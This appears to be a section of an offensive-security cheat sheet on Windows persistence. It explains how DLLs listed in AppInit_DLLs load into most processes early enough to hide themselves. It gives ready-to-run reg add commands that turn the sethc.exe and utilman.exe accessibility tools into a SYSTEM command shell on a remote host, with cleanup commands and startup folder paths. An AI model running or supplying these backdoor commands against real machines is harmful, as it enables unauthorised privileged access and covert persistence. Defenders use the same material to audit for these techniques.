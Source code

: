 ##### AppInit_DLLs 
Load custom DLLs each time a program runs (If it loads USER32.dll).  This is checked by most AV!

This value corresponds to files being loaded through the AppInit_DLLs Registry value. The AppInit_DLLs registry value contains a list of dlls that will be loaded when user32.dll is loaded. As most Windows executables use the user32.dll, that means that any DLL that is listed in the AppInit_DLLs registry key will be loaded also. This makes it very difficult to remove the DLL as it will be loaded within multiple processes, some of which can not be stopped without causing system instability. The user32.dll file is also used by processes that are automatically started by the system when you log on. This means that the files loaded in the AppInit_DLLs value will be loaded very early in the Windows startup routine allowing the DLL to hide itself or protect itself before we have access to the system.
```
    HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Windows\AppInit_DLLs
```

##### No-reboot sethc/utilman option using a "debugger" key  

Navigate to HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
Make key called "sethc.exe"
Make a REG_SQ value called "Debugger"
Assign it "c:\windows\system32\cmd.exe" as the value
Hit SHIFT 5 times and get a shell as nt authority\system
``` 
    reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
    reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
```

Remove the debugger key
```
    reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
    reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /f
```

#### File Storage Locations

##### Startup Folders
``` 
    #All Users - Windows XP
    C:\Documents and Settings\All Users\Start Menu\Programs\Startup

    #All Users - Windows Vista+
    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

    #User Profile - Windows XP
    C:\Documents and Settings\<USERNAME>\Start Menu\Programs\Startup

    #User Profile - Windows Vista+
    C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

